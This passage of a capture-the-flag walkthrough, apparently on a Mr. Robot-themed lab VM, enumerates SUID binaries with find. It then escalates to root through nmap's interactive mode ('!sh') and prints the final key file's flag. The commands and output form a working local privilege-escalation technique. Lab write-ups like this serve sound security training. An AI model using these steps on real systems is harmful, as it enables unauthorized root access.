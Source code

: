 ```
robot@linux:/$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
< f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null         
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-touchlock
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwxr-sr-x 1 root utmp 421768 Nov  7  2013 /usr/bin/screen
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-unlock
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-lock
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwxr-sr-x 1 root crontab 35984 Feb  9  2013 /usr/bin/crontab
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwxr-sr-x 1 root shadow 54968 Feb 17  2014 /usr/bin/chage
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwxr-sr-x 1 root shadow 23360 Feb 17  2014 /usr/bin/expiry
-rwxr-sr-x 1 root mail 14856 Dec  7  2013 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwxr-sr-x 1 root ssh 284784 May 12  2014 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 19024 Feb 12  2015 /usr/bin/wall
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
-rwxr-sr-x 1 root shadow 35536 Jan 31  2014 /sbin/unix_chkpwd
```

In the list, there's one item that is a bit odd, `nmap`.

Nmap has a suid bit set as root, and we know nmap provide an interactive mode in which we can run shell commands, let's use it and get our final key.

```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# ls /root
ls /root
firstboot_done	key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

Although the user id was of robot but in this interactive shell the effective user id was of root, that's why we were able to read the file as root.